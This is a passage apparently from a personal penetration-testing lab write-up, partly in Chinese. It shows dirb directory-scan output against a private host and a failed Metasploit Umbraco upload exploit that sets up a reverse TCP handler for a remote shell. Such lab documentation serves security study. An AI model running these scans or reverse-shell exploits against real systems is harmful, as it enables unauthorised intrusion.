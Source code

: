 ```sh
-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.4.5/ ----
==> DIRECTORY: http://192.168.4.5/assets/
==> DIRECTORY: http://192.168.4.5/css/
+ http://192.168.4.5/index.html (CODE:200|SIZE:4047)
==> DIRECTORY: http://192.168.4.5/javascript/
==> DIRECTORY: http://192.168.4.5/js/
+ http://192.168.4.5/robots.txt (CODE:200|SIZE:36)
+ http://192.168.4.5/server-status (CODE:403|SIZE:276)

---- Entering directory: http://192.168.4.5/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.4.5/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.4.5/javascript/ ----
==> DIRECTORY: http://192.168.4.5/javascript/jquery/

---- Entering directory: http://192.168.4.5/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.4.5/javascript/jquery/ ----
+ http://192.168.4.5/javascript/jquery/jquery (CODE:200|SIZE:288550)

-----------------
END_TIME: Sat Feb 15 10:41:19 2025
DOWNLOADED: 13836 - FOUND: 4

```

![Pasted image 20250215234353.png](/img/user/picture/Pasted%20image%2020250215234353.png)

看一下有没有漏洞可以利用
![Pasted image 20250215234428.png](/img/user/picture/Pasted%20image%2020250215234428.png)

这一个好像不行
```sh
msf6 exploit(windows/http/umbraco_upload_aspx) > run
[*] Started reverse TCP handler on 192.168.4.4:4444
[*] Uploading 373628 bytes through /umbraco/webservices/codeEditorSave.asmx...
[*] Uploading to /umbraco/vmAIYVfqDuC.aspx
[*] Didn't get the expected 500 error code /umbraco/webservices/codeEditorSave.asmx [500 Not Found]. Trying to execute the payload anyway
[*] Executing /umbraco/vmAIYVfqDuC.aspx...
[-] Execution failed on /umbraco/vmAIYVfqDuC.aspx [404 Not Found]
[*] Exploit completed, but no session was created.

```
